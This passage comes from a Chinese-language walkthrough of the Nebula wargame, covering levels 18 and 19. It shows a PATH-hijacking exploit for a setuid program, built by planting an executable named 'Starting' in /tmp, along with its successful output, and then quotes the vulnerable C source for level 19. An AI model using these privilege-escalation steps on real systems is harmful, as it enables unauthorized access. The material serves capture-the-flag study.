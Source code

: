 ```bash
/tmp/dbg17: line 4: got: command not found
/tmp/dbg17: line 5: attempting: command not found
/tmp/dbg17: line 6: got: command not found
...
```

开头调用了`Starting`和`got`命令，但是两个命令都不存在。那就构造一个命令，这样就能利用漏洞了（/tmp目录下）：

```bash
echo "/bin/getflag" > Starting && chmod +x Starting
PATH=/tmp:$PATH
```

再次执行后查看结果：

```bash
level18@nebula:/tmp$ cat /tmp/log17 | head -20
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'n'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 't'
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
You have successfully executed getflag on a target account
/tmp/dbg17: line 2: got: command not found
```

这样第一种方法已经实现。其他方法待续……

# Nebula level19 #
> There is a flaw in the below program in how it operates.
> 
> 下面的程序执行方式有漏洞。

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
    printf("Unable to check parent process\n");
    exit(EXIT_FAILURE);
  }

  /* check the owner id */
```